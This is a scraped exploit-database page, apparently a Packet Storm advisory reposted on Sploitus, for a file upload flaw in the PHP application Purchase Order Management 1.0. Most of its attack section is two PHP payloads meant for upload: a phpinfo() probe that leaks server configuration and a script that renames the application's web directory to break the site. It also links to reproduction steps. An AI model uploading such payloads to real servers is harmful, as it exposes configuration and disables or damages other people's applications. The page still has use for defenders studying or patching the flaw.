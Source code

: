 ```yaml
---
title: Purchase Order Management 1.0 Shell Upload exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:171287&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-09
fetch_date: 2025-10-04T09:00:35.390030
---
```


# Purchase Order Management 1.0 Shell Upload exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Purchase Order Management 1.0 Shell Upload

2023-03-08 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:171287
## Title: Purchase Order Management-1.0 - File Inclusion Vulnerabilities - Unprivileged user interaction - file upload in the server
## Author: nu11secur1ty
## Date: 03.06.2023
## Vendor: https://www.sourcecodester.com/user/257130/activity
## Software: https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html
## Reference: https://brightsec.com/blog/file-inclusion-vulnerabilities/

## Description:
The Purchase Order Management-1.0 suffer from File Inclusion Vulnerabilities.
The users of this system are allowed to submit input into files or
upload files to the server.
The malicious attacker can get absolute control of this system!

STATUS: CRITICAL Vulnerability

[+]Get Info:

```PHP
<?php
// by nu11secur1ty - 2023
phpinfo();
?>

```
[+]Exploit:

```PHP
<?php
// by nu11secur1ty - 2023
// Old Name Of The file
$old_name = "C:/xampp7/htdocs/purchase_order/" ;

// New Name For The File
$new_name = "C:/xampp7/htdocs/purchase_order_stupid/" ;

// using rename() function to rename the file
rename( $old_name, $new_name) ;

?>
```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2023/Purchase-Order-Management-1.0)

## Proof and Exploit:
[href](https://streamable.com/vkq31h)

## Time spend:
00:35:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)
